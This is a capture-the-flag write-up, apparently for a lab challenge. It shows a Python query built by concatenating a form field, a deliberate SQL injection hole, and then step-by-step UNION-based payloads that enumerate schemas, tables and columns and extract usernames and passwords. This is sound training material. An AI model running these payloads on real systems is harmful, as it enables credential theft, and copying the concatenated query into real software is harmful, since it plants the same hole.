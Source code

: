 # SQLI1

## General information 
url: http://vuln2.redrocket.club:12347/

given: 
```
cursor.execute("SELECT id, title, content FROM articles WHERE public=1 AND id=" + request.form["article_id"])
```

query: 
```SQL
SELECT id, title, content FROM articles WHERE public=1 AND id=" + request.form["article_id"]
```


## Try 1: OR 1
```SQL
' OR 1 # didn't work 
```

## Try 2: Union method 

## try union method: 

show article id 1:
```SQL
0 UNION SELECT id, title, content FROM articles LIMIT 0,1
```

Look at other articles counting up the LIMIT: 
```SQL
0 UNION SELECT id, title, content FROM articles LIMIT 1,2
```

### Systematically get information about database: 

#### query schematas: 
```SQL
0 union select schema_name, 2, 3 from information_schema.schemata LIMIT 0,1
```

Count up the LIMIT e.g. LIMIT 1,2 to see other schematas: 

all schematas: 
* mysql
* information_schema
* performance_schema
* sys
* news

Schema news sounds like it is not a system schema. 

#### query tables from the news schema: 
```SQL
0 union select table_name, 2, 3 from information_schema.tables where table_schema='news' limit 0,1
```

tables in schema news: 
* articles
* userdatathatisvaluable

#### columns in table userdatathatisvaluable: 
```SQL
0 union select column_name, 2, 3 from information_schema.columns where table_name="userdatathatisvaluable" limit 0,1
```
columns in userdatathatisvaluable: 
* id 
* name 
* password 

#### hack userdatathatisvaluable: 
```SQL
0 union select id, name, password from userdatathatisvaluable limit 0,1
```





